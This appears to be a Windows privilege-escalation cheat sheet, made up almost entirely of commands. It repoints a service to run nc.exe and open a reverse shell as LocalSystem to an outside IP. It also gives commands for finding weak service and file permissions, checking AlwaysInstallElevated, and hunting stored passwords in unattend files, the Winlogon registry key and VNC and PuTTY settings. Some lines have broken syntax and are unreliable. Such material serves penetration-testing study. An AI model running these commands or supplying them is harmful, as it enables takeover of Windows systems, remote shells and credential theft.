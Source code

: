 ### Exploiting Vulnerable Windows Services: Weak Service Permissions
```bash
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```

### Find File/Folder Permissions Explicitly Set for a Given User
```bash
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

### AlwaysInstallElevated MSI
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Store Credentials: Windows
```powershell
c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
```
